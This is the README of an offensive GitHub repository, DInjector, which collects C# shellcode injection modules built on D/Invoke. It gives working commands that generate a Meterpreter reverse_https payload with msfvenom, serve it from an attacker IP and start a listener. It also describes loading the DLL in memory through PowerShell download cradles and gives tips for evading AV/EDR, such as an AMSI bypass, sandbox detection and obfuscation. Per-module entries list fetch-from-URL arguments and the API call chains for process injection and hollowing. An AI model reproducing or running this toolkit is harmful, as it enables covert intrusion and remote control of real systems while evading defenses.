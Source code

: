 DInjector
==========

```
     (    (
     )\ ) )\ )                   )             (   (  (
    (()/((()/(     (    (     ( /(    (        )\ ))\ )\
     /(_))/(_))(   )\  ))\ (  )\())(  )(      (()/((_|(_)
    (_))_(_))  )\ |(_)/((_))\(_))/ )\(()\      ((_))  _
     |   \_ _|_(_/( !(_)) ((_) |_ ((_)((_)     _| | || |
     | |) | || ' \)) / -_) _||  _/ _ \ '_|  _/ _` | || |
     |___/___|_||_|/ \___\__| \__\___/_|   (_)__,_|_||_|
                 |__/-----------------------------------
                                                K E E P
                                                C A L M
                                                  A N D
                                       D / I N 💉 E C T
                                      S H E L L C O D E
```

This repository is an accumulation of my code snippets for various **shellcode injection** techniques using fantastic [D/Invoke](https://thewover.github.io/Dynamic-Invoke/) API by @TheWover and @FuzzySecurity.

Based on my testings the DInvoke NuGet [package](https://www.nuget.org/packages/DInvoke/) itself is being flagged by many commercial AV/EDR solutions when incuded as an embedded resource via [Costura.Fody](https://www.nuget.org/packages/Costura.Fody/) (or similar approaches), so I recommend to modify it and include from [source](https://github.com/TheWover/DInvoke) to achieve better opsec.

DInjector is not intended to be used for AV/EDR evasion out-of-the-box, but provides a bunch of weaponized examples to improve your generic tradecraft during the engagement and/or sharpen your detection rules to prevent this sort of shellcode execution.

Some tips how the driver [Program](/DInjector/Program.cs) can be enhanced (leaving it as an exercise for the reader):

* Use encrypted payloads which can be invoked from a URL or passed in Base64 as an argument.
* Add built-in AMSI bypass (a great example from @rasta-mouse is [here](https://rastamouse.me/memory-patching-amsi-bypass/)).
* Add sandbox detection methods.
* Protect the resulting assembly with [ConfuserEx](https://github.com/yck1509/ConfuserEx) or similar tools.

## Usage

Here is a basic example to get started.

1. Compile the project in Visual Studio.
2. Generate a shellcode for your favourite C2:

```console
~$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f raw -o shellcode.bin
```

3. Serve `shellcode.bin` and start C2 listener:

```console
~$ sudo python3 -m http.server 80
~$ sudo msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set lhost 10.10.13.37; set lport 443; set EXITFUNC thread; run"
```

4. Use one of the PowerShell download [cradles](/Cradles) to load DInjector.dll as `System.Reflection.Assembly` and execute it from memory.

I **do not** recommend putting the assembly on disk because it will very likely be flagged.

## Modules

**Note:** opsec safe considerations are based on my personal expirience and some testings along the way.

### [FunctionPointer](/DInjector/Modules/FunctionPointer.cs)

```yaml
module_name: 'functionpointer'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin
description: |
  Allocates a RWX memory region, copies the shellcode into it
  and executes it like a function.
calls:
  - ntdll.dll:
    1: 'NtAllocateVirtualMemory'
opsec_safe: false
references:
  - 'http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/'
  - 'https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis'
  - 'https://www.fergonez.net/post/shellcode-csharp'
```

### [FunctionPointerV2](/DInjector/Modules/FunctionPointerV2.cs)

```yaml
module_name: 'functionpointerv2'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin
description: |
  Sets RWX on a byte array and executes it like a function.
calls:
  - ntdll.dll:
    1: 'NtProtectVirtualMemory'
opsec_safe: false
references:
  - 'https://jhalon.github.io/utilizing-syscalls-in-csharp-1/'
  - 'https://jhalon.github.io/utilizing-syscalls-in-csharp-2/'
  - 'https://github.com/jhalon/SharpCall/blob/master/Syscalls.cs'
```

### [CurrentThread](/DInjector/Modules/CurrentThread.cs)

```yaml
module_name: 'currentthread'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin
description: |
  Injects shellcode into current process.
  Thread execution via NtCreateThreadEx.
calls:
  - ntdll.dll:
    1: 'NtAllocateVirtualMemory'
    2: 'NtProtectVirtualMemory'
    3: 'NtCreateThreadEx'
    4: 'NtWaitForSingleObject'
opsec_safe: false
references:
  - 'https://github.com/XingYun-Cloud/D-Invoke-syscall/blob/main/Program.cs'
```

### [RemoteThread](/DInjector/Modules/RemoteThread.cs)

```yaml
module_name: 'remotethread'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin /pid:1337
description: |
  Injects shellcode into an existing remote process.
  Thread execution via NtCreateThreadEx.
calls:
  - ntdll.dll:
    1: 'NtOpenProcess'
    2: 'NtAllocateVirtualMemory'
    3: 'NtWriteVirtualMemory'
    4: 'NtProtectVirtualMemory'
    5: 'NtCreateThreadEx'
opsec_safe: false
references:
  - 'https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/SharpImpersonation/Shellcode.cs'
```

### [RemoteThreadAPC](/DInjector/Modules/RemoteThreadAPC.cs)

```yaml
module_name: 'remotethreadapc'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin /image:C:\Windows\System32\svchost.exe
description: |
  Injects shellcode into a newly spawned remote process.
  Thread execution via NtQueueApcThread.
calls:
  - kernel32.dll:
    1: 'CreateProcess'
  - ntdll.dll:
    1: 'NtAllocateVirtualMemory'
    2: 'NtWriteVirtualMemory'
    3: 'NtProtectVirtualMemory'
    4: 'NtOpenThread'
    5: 'NtQueueApcThread'
    6: 'NtAlertResumeThread'
opsec_safe: true
references:
  - 'https://rastamouse.me/exploring-process-injection-opsec-part-2/'
  - 'https://gist.github.com/jfmaes/944991c40fb34625cf72fd33df1682c0'
```

### [RemoteThreadContext](/DInjector/Modules/RemoteThreadAPC.cs)

```yaml
module_name: 'remotethreadcontext'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin /image:C:\Windows\System32\svchost.exe
description: |
  Injects shellcode into a newly spawned remote process.
  Thread execution via SetThreadContext.
calls:
  - kernel32.dll:
    1: 'CreateProcess'
  - ntdll.dll:
    1: 'NtAllocateVirtualMemory'
    2: 'NtWriteVirtualMemory'
    3: 'NtProtectVirtualMemory'
    4: 'NtCreateThreadEx'
    5: 'GetThreadContext'
    6: 'SetThreadContext'
    7: 'NtResumeThread'
opsec_safe: true
references:
  - 'https://blog.xpnsec.com/undersanding-and-evading-get-injectedthread/'
  - 'https://github.com/djhohnstein/CSharpSetThreadContext/blob/master/Runner/Program.cs'
```

### [ProcessHollow](/DInjector/Modules/ProcessHollow.cs)

```yaml
module_name: 'processhollow'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin /image:C:\Windows\System32\svchost.exe
description: |
  Injects shellcode into a newly spawned remote process.
  Thread execution via NtResumeThread (hollowing with shellcode).
calls:
  - kernel32.dll:
    1: 'CreateProcess'
  - ntdll.dll:
    1: 'NtQueryInformationProcess'
    2: 'NtReadVirtualMemory'
    3: 'NtProtectVirtualMemory'
    4: 'NtWriteVirtualMemory'
    5: 'NtResumeThread'
opsec_safe: false
references:
  - 'https://github.com/CCob/SharpBlock/blob/master/Program.cs'
```

## Credits

* @TheWover and @FuzzySecurity for their awesome [DInvoke](https://github.com/TheWover/DInvoke) project.
* All those great researchers mentioned in the modules references above.
